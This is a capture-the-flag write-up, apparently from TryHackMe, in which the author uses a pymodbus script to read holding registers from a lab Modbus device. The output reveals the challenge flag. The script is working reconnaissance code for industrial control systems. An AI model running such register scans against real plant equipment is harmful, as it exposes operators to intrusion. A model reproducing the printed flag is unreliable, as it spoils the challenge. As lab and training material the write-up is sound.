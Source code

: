 I didnt have a clue abt Modbus to begin with.

I watched a couple YT Vids and then went to the Obvious (ChatGPT) to get more help. It Suggested me to use "mbpoll". I checked if it was available in the attackbox but no.

So after that i went around the THM Site looking for Rooms abt Modbus since it should be logical that THM has a room abt it when they use it in a CTF. 

Then I Found the room "# Attacking ICS Plant #1" where they Used "pymodbus" i went and checked if it was available in the Attack box and it was. 

After that i Went and wrote a Python Script with help of Chat GPT to Connect to the Modbus Device and Pull Registers 0-200. 

This is the Script Since Im German the Dialoug is in German aswell hahahah: 

```
from pymodbus.client.sync import ModbusTcpClient

def is_probably_ascii(word):
    return all(32 <= b <= 126 for b in word)

def scan_holding_registers_for_ascii(ip, port=502, unit_id=1, start=0, end=200, block_size=20):
    client = ModbusTcpClient(ip, port=port)

    if not client.connect():
        print(f"Verbindung zu {ip}:{port} fehlgeschlagen.")
        return

    print(f"Suche nach ASCII-Daten in Holding-Register {start} bis {end}...\n")

    try:
        for address in range(start, end, block_size):
            result = client.read_holding_registers(address, block_size, unit=unit_id)
            if result.isError():
                print(f"[{address:03d}] Fehler beim Lesen.")
                continue

            registers = result.registers
            raw_bytes = []

            for reg in registers:
                high = (reg >> 8) & 0xFF
                low = reg & 0xFF
                raw_bytes.extend([high, low])

            # Versuche in ASCII umzuwandeln, ersetze unlesbare Zeichen mit '.'
            ascii_str = ''.join(chr(b) if 32 <= b <= 126 else '.' for b in raw_bytes)

            # Zeige nur, wenn mindestens 4 lesbare Zeichen enthalten sind
            if ascii_str.count('.') < len(ascii_str) - 4:
                print(f"[{address:03d}] -> '{ascii_str}'")

    finally:
        client.close()

# Starte den Scan
scan_holding_registers_for_ascii(ip="10.10.51.226", port=502, start=0, end=200, block_size=20)

```

After Running it it literally only was a look into the output witch was 

```
[000] -> '..&.!.;H..X*y=..=._...<`1..4(..T.Q..L/."'
[020] -> '..td..#.........X..`.\... ..eQL...y.l.V\'
[040] -> '=".Y..u.._.e..6.l.....N...K.3....#..l.8.'
[060] -> '..Y.....vh]...............{...Q.>.....`.'
[080] -> '..0w...f.:.1x..%...g...d.E.|......?..tg.'
[100] -> './.h...1..M:3....o...*v..!..=...9....o..'
[120] -> 'a.oNBN.K...vWpB.......K...2p9.V..z.S.I.r'
[140] -> '..@.*.V#..QR...Z........nFa......?(h....'
[160] -> '.^.[..J7..../...}.THM{m4nu4l_p0ll1ng_r3g'
[180] -> '1st3rs}..y......U..5.y....iZ....A.+v....'

```